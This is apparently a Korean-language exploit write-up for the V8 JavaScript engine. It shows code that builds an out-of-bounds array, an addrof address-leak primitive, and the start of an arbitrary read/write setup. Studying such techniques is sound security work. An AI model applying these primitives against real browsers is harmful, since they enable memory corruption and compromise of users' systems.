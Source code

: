 ### Get address of arbitrary object

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% DebugPrint(obj_arr);
```

함수 내부에서 `oob_arr`과 `obj_arr`을 연속해서 정의하면 메모리 상에서 인접한 위치에 할당된다. 따라서 `oob_arr`을 통해 `obj_arr`의 메모리에 접근하여 값을 읽고 쓸 수 있다.

![image](https://github.com/user-attachments/assets/9f7ce0db-456c-4cf0-9867-1d2a767f4bd6)

![image](https://github.com/user-attachments/assets/d4045542-81da-47b1-bd89-4b5e7e7c38a5)

![image](https://github.com/user-attachments/assets/58f600ac-687d-4d90-be57-9003abfea055)

```js
// get (compressed) address of |obj|
function addrof(obj) {
    obj_arr[0] = obj;
    return ftoi(oob_arr[4]) & 0xffffffffn;
}

// addrof test
let tmp_obj_addr = addrof(tmp_obj);
console.log(`[+] tmp_obj_addr == ${hex(tmp_obj_addr)}`);
```

![image](https://github.com/user-attachments/assets/4182fce3-1611-4f2a-b25b-a49774b2d3ca)

### Arbitrary address read/write

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};
let typed_arr;

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
    typed_arr = new BigUint64Array(1);
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% DebugPrint(typed_arr);
```
